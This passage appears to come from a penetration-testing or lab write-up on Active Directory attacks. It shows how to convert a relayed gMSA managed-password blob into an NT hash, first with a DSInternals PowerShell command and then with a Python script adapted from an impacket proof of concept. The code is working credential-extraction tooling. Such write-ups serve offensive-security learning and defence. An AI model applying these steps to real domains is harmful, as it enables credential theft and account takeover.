 We can however still use DSInternals to convert the blob to an NT hash, with a little string manipulation. First separate every hexadecimal byte with a comma and convert every byte to decimal notation, then run this command and we'll have our NT hash:
```powershell
(ConvertFrom-ADManagedPasswordBlob <BLOB>).SecureCurrentPassword | ConvertTo-NTHash
```

![28e2f9f78ecba43cc2cc0ffdb4ec15a8.png](/_resources/28e2f9f78ecba43cc2cc0ffdb4ec15a8.png)

Or, if we want to stick to Linux, run this Python script with your decimal blob to get the same result, it's just a slightly edited version of [Alberto Solino](https://github.com/fortra/impacket/pull/770)'s PoC':
```python
from impacket.structure import Structure

class MSDS_MANAGEDPASSWORD_BLOB(Structure):
    structure = (
        ('Version','<H'),
        ('Reserved','<H'),
        ('Length','<L'),
        ('CurrentPasswordOffset','<H'),
        ('PreviousPasswordOffset','<H'),
        ('QueryPasswordIntervalOffset','<H'),
        ('UnchangedPasswordIntervalOffset','<H'),
        ('CurrentPassword',':'),
        ('PreviousPassword',':'),
        ('QueryPasswordInterval',':'),
        ('UnchangedPasswordInterval',':'),
    )

    def __init__(self, data = None):
        Structure.__init__(self, data = data)

    def fromString(self, data):
        Structure.fromString(self,data)

        if self['PreviousPasswordOffset'] == 0:
            endData = self['QueryPasswordIntervalOffset']
        else:
            endData = self['PreviousPasswordOffset']

        self['CurrentPassword'] = self.rawData[self['CurrentPasswordOffset']:][:endData - self['CurrentPasswordOffset']]
        if self['PreviousPasswordOffset'] != 0:
            self['PreviousPassword'] = self.rawData[self['PreviousPasswordOffset']:][:self['QueryPasswordIntervalOffset']-self['PreviousPasswordOffset']]

        self['QueryPasswordInterval'] = self.rawData[self['QueryPasswordIntervalOffset']:][:self['UnchangedPasswordIntervalOffset']-self['QueryPasswordIntervalOffset']]
        self['UnchangedPasswordInterval'] = self.rawData[self['UnchangedPasswordIntervalOffset']:]

relayxOutput = (<BLOB>)

blob = MSDS_MANAGEDPASSWORD_BLOB()
blob.fromString(bytes(relayxOutput))
from Cryptodome.Hash import MD4
hash = MD4.new ()
hash.update (blob['CurrentPassword'][:-2])
print("="*80)
print(hash.hexdigest())
print("="*80)

```
